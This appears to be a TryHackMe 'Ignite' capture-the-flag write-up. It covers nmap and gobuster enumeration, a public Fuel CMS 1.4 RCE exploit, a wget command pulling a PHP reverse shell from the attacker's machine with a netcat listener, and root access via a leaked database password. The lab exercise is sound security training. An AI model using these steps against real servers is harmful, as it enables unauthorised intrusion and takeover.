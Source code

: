 ```yaml
---
title: TryHackMe Ignite
date: 2024-04-01 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/676cb3273c613c9ba00688162efc0979.png
---
```


A new start-up has a few issues with their web server.

## **Skills Needed**

Searching exploit, CMS, Privilege escalation, Database

## **Reconnaissance**
---
Initially do the Nmap scan.

```bash
nmap -sC -sV -p- $IP --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-21 07:09 EDT
Stats: 0:01:23 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 80.65% done; ETC: 07:11 (0:00:20 remaining)
Nmap scan report for 10.10.164.210
Host is up (0.29s latency).
Not shown: 65217 closed tcp ports (conn-refused), 317 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.27 seconds
```

## **Insights and To-TRY List**
---
OS: Ubuntu

80 → HTTP

- Using Fuel CMS version 1.4
- Has a public exploit for remote code execution. CVE 2018-16763
- Using default credentials for the admin page
- Cannot upload php file

## **Enumeration**
---
### 80 HTTP

**Viewing the webpage.**

![Desktop View](/assets/images/ignite/cms.png){: width="972" height="589" }

Upon doing some manual enumeration, I found that robots.txt is accessible

![Desktop View](/assets/images/ignite/robots.png){: width="972" height="589" }

Inspecting the CMS website.

![Desktop View](/assets/images/ignite/inspect-cms.png){: width="972" height="589" }

Altohugh I am well aware that there is an existing admin directory, I still do some directory busting to be sure that I am not missing something.

**Using gobuster**

```go
gobuster dir -u http://10.10.164.210/ -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -k -t 30
```
![Desktop View](/assets/images/ignite/gobuster.png){: width="972" height="589" }

Seems like it is the only page that is accessbile.

**Visiting the fuel admin page**

![Desktop View](/assets/images/ignite/admin-apge.png){: width="972" height="589" }

While exploring, I have found an upload page but it seems there is a filter that denies the php file extension.

![Desktop View](/assets/images/ignite/php-deny.png){: width="972" height="589" }

## **Gaining an Initial Foothold**

I've decided to search for a public exploit for Fuel CMS since we know the current version it's running, and we haven't found a way to upload a reverse shell yet.

Fortunately, I found one!

[Fuel CMS v1.4 public exploit](https://www.exploit-db.com/exploits/50477)

Download the exploit and execute using the command

```go
python3 <exploit-name> -u <http://IP>
```
![Desktop View](/assets/images/ignite/exploit-cms.png){: width="972" height="589" }

Upon directory listing, we can see the "robots.txt" file, which we were able to access earlier during manual enumeration. This implies that we can also execute a file once the browser client sends a "GET" request to the server. Therefore, we can obtain a reverse shell by downloading a PHP reverse shell from our local machine.

For attacking machine

```bash
python3 -m http.server
```
For target machine

```bash
wget http://10.13.50.82:8000/php-reverse-shell.php
```

![Desktop View](/assets/images/ignite/rce.png){: width="972" height="589" }

Once the PHP reverse shell has been uploaded, encode it to the browser to make a GET request to the server, enabling us to obtain a reverse shell. Don't forget to set up the listener as specified in the PHP reverse shell script.

```bash
nc -lnvp 1234
```

```bash
10.10.164.210/php-reverse-shell.php
```
![Desktop View](/assets/images/ignite/rev-shell.png){: width="972" height="589" }

Upon checking, python3 is installed in the machine. That means we can stabilize our dumb shell!

![Desktop View](/assets/images/ignite/dumb-shell.png){: width="972" height="589" }

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='clear -lsaht --color=auto'

**Ctrl + Z [Background Process]**
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
![Desktop View](/assets/images/ignite/stable-shell.png){: width="972" height="589" }

> Do not forget to find the flag
{: .prompt-danger }

## **Privilege Escalation**
---
After falling down the rabbit hole of finding some ways to root the box, I decided to take a look again at the homepage. Fortunately, setting up the database for the CMS has instructions where we can access it, which probably contains default credentials.

![Desktop View](/assets/images/ignite/install.png){: width="972" height="589" }

![Desktop View](/assets/images/ignite/db.png){: width="972" height="589" }

Viewing the file

![Desktop View](/assets/images/ignite/creds.png){: width="972" height="589" }

Let us try switching root

```bash
su root
mememe
```

![Desktop View](/assets/images/ignite/root.png){: width="972" height="589" }

> Do not forget to find the root flag
{: .prompt-danger }

## **Take Away Concepts**
- Read the default page of CMS — it may contain some useful information and default credentials. It could be an instruction of where to access sensitive information that the user haven’t changed.


